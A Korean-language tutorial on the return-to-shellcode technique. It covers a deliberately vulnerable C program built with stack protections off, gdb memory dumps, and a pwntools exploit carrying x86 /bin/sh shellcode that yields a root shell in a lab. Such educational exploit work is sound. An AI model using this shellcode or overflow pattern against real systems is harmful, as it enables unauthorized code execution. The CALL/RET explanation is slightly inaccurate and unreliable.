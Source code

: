 ## **Concept**

Return address 영역에 Shellcode가 저장된 주소로 변조해, Shellcode 호출하는 기법이다.

#### **CALL**
1. Return address를 Stack에 저장하고, 피연산자 주소로 이동.

#### **RET**
1. EBP 레지스터가 가리키는 Stack 영역의 값을 RIP 레지스터에 저장
1. JMP 명령을 통해 RIP에 저장된 영역으로 이동

```
; CALL
push return_address
jmp

; RET
pop eip
jmp eip
``` 

## **Proof of Concept**  

```c
// Vuln Code
// gcc -z execstack -fno-stack-protector -o test test.c
#include <stdio.h>
#include <unistd.h>

void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    read(0, buf, 100);
}

void main(){
    vuln();
}
```

"A"62 + "B"4 입력 시 Return address 조작이 가능하다.

```
gdb-peda$ x/24wx $ebp
0xbfe98a78:	0x41414141	0x42424242	0xb7f233dc	0xbfe98aa0
```

변조된 메모리 구조.

```
gdb-peda$ x/24wx $ebp
0xbfa06f08:	0x41414141	0x42424242	0xb7eda30a	0xbfa06f30
0xbfa06f18:	0x00000000	0xb7d40637	0xb7eda000	0xb7eda000
```

ASLR 적용되어 있어 Stack 주소 랜덤하지만 지역변수 buf의 주소가 출력되므로 buf에 Shellcode 삽입하고 Return address에 buf 주소 삽입하여 Shellcode 실행할 수 있다.

## **Exploit Code**
```python
# Exploit Code
from pwn import *

p = process('./test')
recv = p.recvline()
buf = int(recv.split(' ')[3].split('n')[0],16)
print('buf: '+hex(buf))

p.sendline('\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xcd\x80'+'A'*31+ p32(buf))
p.interactive()
```

## **Exploit**
```shell
bs@bs-virtual-machine:~/vulns/RTS$ python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './test': pid 16624
buf: 0xbfe9be8e
[*] Switching to interactive mode
1󿾱ٱəxb0xa4̀jx0bXQh//shh/binx89㊑̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAx8exbe
$                                                                             id
uid=0(root) gid=1000(bs) groups=1000(bs),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/02.Return+to+Shellcode](https://www.lazenca.net/display/TEC/02.Return+to+Shellcode)

